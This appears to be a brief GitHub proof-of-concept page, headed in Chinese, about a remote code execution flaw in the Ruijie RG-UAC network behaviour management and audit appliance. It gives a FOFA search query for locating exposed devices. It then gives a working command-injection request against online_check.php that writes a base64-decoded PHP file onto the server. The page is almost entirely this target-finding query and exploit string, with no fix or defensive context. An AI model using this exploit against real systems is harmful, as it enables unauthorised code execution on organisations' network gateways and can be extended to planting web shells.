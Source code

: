 ## RG-UAC锐捷统一上网行为管理与审计系统存在远程代码执行漏洞

## fofa
```
app="Ruijie-RG-UAC"
```


## poc
```
/view/vpn/autovpn/online_check.php?peernode= | `echo PD9waHAgcGhwaW5mbygpOw== | base64 -d > 1.php`

```

![image](https://github.com/wy876/POC/assets/139549762/a10f13fb-884b-4c74-b912-f08936bb25ff)
